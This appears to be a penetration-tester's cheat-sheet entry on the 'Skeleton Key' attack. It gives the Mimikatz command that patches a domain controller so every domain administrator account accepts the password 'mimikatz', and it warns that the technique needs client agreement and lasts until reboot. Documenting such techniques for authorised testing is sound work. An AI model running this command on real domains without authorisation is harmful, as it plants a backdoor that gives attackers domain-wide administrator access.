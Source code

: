 # Skeleton Key

```bash
# Creating a Skeleton Key on a Domain Controller
mimikatz !misc::skeleton
```

This will allow you (by default) to log in with any domain administrators account using the password `mimikatz`

**Notes:** This should not be used unless explicitly discussed with a client. A skeleton key cannot be removed until the domain controllers impacted are restarted. Additionally, it is possible for this attack to cause unintended effects.
